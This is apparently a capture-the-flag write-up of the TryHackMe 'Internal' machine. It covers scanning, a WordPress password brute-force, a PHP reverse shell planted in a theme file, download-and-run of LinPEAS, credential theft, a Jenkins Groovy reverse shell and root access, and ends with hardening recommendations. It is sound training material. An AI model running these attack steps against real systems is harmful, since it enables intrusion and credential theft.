# **Enumeration and Reconnaissance**

## **Nmap Scan**

To begin the reconnaissance phase, I performed a full port scan to discover every exposed service on the target machine:

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv <IP>`



I then ran a more detailed scan focused on service versions and common scripts:

`nmap -sCV -p22,80 <IP> -oN targeted`



Port 80 revealed an Apache server:



---

To enumerate exposed web directories, I used **Gobuster**:

`gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`



The scan revealed the `/blog` directory.  
At first the site did not load properly, suggesting a virtual host configuration.  
To fix this, I added the domain to `/etc/hosts`:

`echo '<IP> internal.thm' >> /etc/hosts`

Now the site was fully accessible at:

`http://internal.thm/blog`

Using **Wappalyzer**, I determined the site was running WordPress:



---

I continued enumeration with **WPScan**, focusing on user discovery:

`wpscan --url http://internal.thm/blog --enumerate u`



After identifying the user `admin`, I launched a brute-force attack:

`wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt --password-attack wp-login`

Eventually, a valid password was returned:



I logged into WordPress using:

`http://internal.thm/blog/wp-login.php`

---

# **Gaining Access**

Inside the WordPress admin panel, I navigated to:

**Appearance → Theme Editor → 404.php**


  

Since the file was editable, it was possible to inject arbitrary PHP code via the theme.

As an initial attack vector, I replaced the contents of `404.php` with a PHP reverse shell using PentestMonkey’s script:

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After editing my IP and port, I uploaded the file and started a listener:

`nc -lvnp 4444`



I triggered the reverse shell by visiting:

`http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`



This provided a shell as **www-data**:



---

# **Privilege Escalation**

I enabled a functional terminal:

`export TERM=xterm`

Then I downloaded **LinPEAS** for deep enumeration.

On my attacking machine:

`cd /usr/share/peass/linpeas python3 -m http.server 80`



On the compromised host:

`cd /tmp wget http://<IP>/linpeas.sh bash linpeas.sh`

 

LinPEAS revealed a **Jenkins** service running inside a Docker container, as well as several sensitive files.

---

## **Credential Enumeration**

LinPEAS also exposed some MySQL credentials, although these were not useful:



In `/opt`, I discovered a file named **wp-save.txt**:

`cd /opt cat wp-save.txt`



This file contained valid login credentials:

I used them to connect via SSH:

`ssh aubreanna@<IP>`



---

## **Accessing the Jenkins Service**

I noticed Jenkins was accessible internally at:

`172.17.0.2:8080`

Because this is a Docker internal IP, I created an SSH tunnel to expose it:

`ssh -L 8080:localhost:8080 aubreanna@<IP>`

With this, Jenkins was reachable from the browser:



Jenkins required authentication, so I continued enumerating.

---

## **Credential Extraction via /proc**

LinPEAS had shown that the Jenkins process was readable.
There's a file named secret.key.
I navigated into the process directory:



`cd /proc/<PID>`

Inside the `cwd` directory, I found the full Jenkins home structure:





From `/var/jenkins_home`, I enumerated sensitive files:

Including:

- `secret.key`
    
- `users/users.xml`
    
- `config.xml`
    





Inside `config.xml`, I extracted a bcrypt password hash:





I cracked it using John the Ripper:

`echo 'admin:<HASH>' > jenkins.hash john jenkins.hash --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt`



I logged into Jenkins using the recovered password:



---

## **Reverse Shell via Groovy Console**

Jenkins provides a Groovy script execution console:



I executed a crafted reverse shell in Groovy:



This granted a shell as the Jenkins user:



---

## **Final Privilege Escalation to Root**

In `/opt`, I discovered `note.txt`, which contained the **root password**:


I logged in as root:

`ssh root@<IP>`



The machine was fully compromised.

---

# **Machine Completed**

This challenge required end-to-end exploitation: web enumeration, WordPress exploitation, RCE, host enumeration, container pivoting, `/proc` analysis, Jenkins exploitation, and full privilege escalation.

A complete and highly educational attack chain.

## **Conclusion**

The main attack vectors throughout the assessment were weak or exposed credentials. Each stage of compromise—WordPress, system user access, Jenkins, and ultimately root—was made possible due to passwords that were either easily brute-forced or stored in plaintext on the system.

---

## **Recommendations**

- **Strengthen the WordPress admin password.**  
    The current credential was easily cracked; enforcing strong passwords would significantly reduce the risk of brute-force attacks.
    
- **Remove the `wp-save.txt` file from `/opt`.**  
    This file exposes valid system user credentials .
    
- **Use a stronger password for the Jenkins admin account.**  
    The bcrypt hash was crackable with common wordlists. Enforce robust password policies for Jenkins users.
    
- **Delete the `note.txt` file inside the Jenkins container’s `/opt` directory.**  
    Storing the root password in plaintext grants immediate privilege escalation to attackers who gain access to the container.
